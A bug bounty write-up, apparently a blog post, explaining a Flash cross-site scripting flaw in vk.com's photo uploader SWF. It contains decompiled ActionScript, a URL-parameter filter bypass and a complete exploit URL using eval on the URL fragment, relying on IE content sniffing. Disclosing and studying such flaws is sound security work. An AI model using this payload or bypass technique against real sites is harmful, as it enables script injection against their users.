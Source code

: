 ```yaml
---
layout: post
title: "Interesting flash xss on vk.com"
categories: Hacks
tags: hacks
image: http://i.imgur.com/wBhOE51.png?1
---
```


### Introduction

Every time I try a bug bounty program on **HackerOne**, I first check for flash files on the domains which are in scope. Flash files are always
a good target as far as I am concerned. Approximately three months back, I came across **VK.com** bug bounty. So, when I searched for flash files
I came across one file named **photo_uploader_lite.swf**. So, I opened the file in my browser and the file got downloaded instead of getting played
in the browser. I ran curl to check the response headers and body.

```
$ curl -i http://vk.com/swf/photo_uploader_lite.swf

HTTP/1.1 200 OK
Server: Apache
Date: Wed, 30 Sep 2015 14:14:31 GMT
Content-Type: application/zip
Content-Length: 12189
Last-Modified: Tue, 21 Jul 2015 16:43:33 GMT
Connection: keep-alive
ETag: "55ae76b5-2f9d"
Expires: Sun, 04 Oct 2015 14:14:31 GMT
Cache-Control: max-age=345600
Accept-Ranges: bytes
```

The file was being served with content type `application/zip`. When I saw the first few bytes of the flash files I recognized the **CWS** file
header which is present for compressed flash files. This flash file will work as expected when embedded using an *object* or *embed* tag. But for a flash
xss, you cannot embed swf on your domain (No actionscript methods were exposed to JS). At this point of time, I lost hopes but still wanted to
have a look at the decompiled code. The following snippet only consists of the interesting code segments for better readability.

{% highlight actionscript linenos %}
package {
    // some imports
    class ExternalCall {
        public static function Simple(_arg1:String):void{
            Call(_arg1);
        }
        private static function Call(... _args):Boolean{
            var _local2:Array;
            var _local3:RegExp;
            if (ExternalInterface.available){
                _local2 = (_args as Array);
                _local3 = /[^().a-z0-9_]/gi;
                _local2[0] = _local2[0].replace(_local3, "");
                return (ExternalInterface.call.apply(null, _local2));
            };
            return (false);
        }
}
package {
    // some imports
    public class Main extends Sprite {

        public function Main():void{
            super();
            if (stage){
                this.init();
            } else {
                addEventListener(Event.ADDED_TO_STAGE, this.init);
            };
        }
        private function init(_arg1:Event=null):void{
            var mouseMove:* = null;
            var mouseOut:* = null;
            var e = _arg1;
            if (some_mouse_over_condition) {
                mouseOver();
            }
            var mouseOver:* = function ():void{
                ExternalCall.Simple(config.onMouseOver);
                stage.addEventListener(Event.MOUSE_LEAVE, mouseOut);
                insideFrame = true;
            };
        }
    }
}
package {
    // some imports

    public class Config {

        private static var _config:Object = {
            // ... some params ...
            onMouseOver:"debugLog",
            // ... some more params ...
        };

        public static function loadConfig(_arg1:LoaderInfo):Object{
            var parameters:* = null;
            var urlQuery:* = null;
            var urlVars:* = null;
            var key:* = null;
            var loaderInfo:* = _arg1;
            try {
                loaderInfo = LoaderInfo(loaderInfo);
                parameters = loaderInfo.parameters;
                urlQuery = loaderInfo.url.split("?")[1];
                urlVars = new URLVariables(((urlQuery) || ("")));
                for (key in urlVars) {
                    if (parameters[key]){
                        delete parameters[key];
                    };
                };
                setConfig(parameters);
            } catch(error:Error) {
            };
            return (_config);
        }

    }
}
{% endhighlight %}

The cleansing of parameters object was being done in the method **loadConfig**. So, any parameter provided in the url is removed from the parameters object.
This looked to me like a protection against flash xss because in a legitimate embed scenario parameters are provided through the **param** html tag. Ideally,
this is a really good way but they forgot something. Have a look at **line 66**. They are extracting url parameters by `loaderInfo.url.split("?")[1]`. What
if the url is something like

```
http://vk.com/swf/photo_uploader_lite.swf?h=h?&param1=value1
```

As far as flash player is concerned the parameters object will have the following values

```
h = h?
param1 = value1
```

But the url parameters extracted by swf will have the following values (as they are considering only 1 index element after splitting)

```
h = h
```

So, when they try to remove url parameters from the flash parameters object, only `h` gets removed but not `param1`. So, we successfully got our
url parameter to stay intact in the parameters object. Cool. **Line 39** has a call to `ExternalCall.Simple` with argument `config[onMouseOver]`. Now
ideally if you put anything like `alert(1)`, `confirm(1)` etc.. it will work. For me a bug is something which can be exploitable. Our next challenge
lies at **line 12**. The only allowed characters in your javascript call are `a-z`,`0-9`,`(`,`)`,`.`,`_`. Javascript strings are common part of any
useful payload, but quotes are filtered here. `,` is not allowed which prevents usage of `String.fromCharCode`. `window.location.hash` came to my mind. So,
a working payload will be

{% highlight javascript %}
eval(window.location.hash.substr(1))
{% endhighlight %}

Now you can place any js code in the fragment part of the url. All this is awesome, but the file is not played by the browser as of now because of the content
type. In this desperate time, my old friend **IE** came to my rescue. If you carefully observe the response headers there is no `X-Content-Type-Options`.
So, when I opened the url in IE, KABOOOOM!!! It sniffed the content type and played the flash file. Ah, the bug is finally exploitable but only in **IE**

```
http://vk.com/swf/photo_uploader_lite.swf?h=h?&onMouseOver=eval(window.location.hash.substr(1))#alert(document.domain);
```

A different payload is in the image

![vk.com Flash XSS](http://i.imgur.com/wBhOE51.png?1)

**HackerOne Report is present [here](https://hackerone.com/reports/66121)** (Not public at the time of writing)
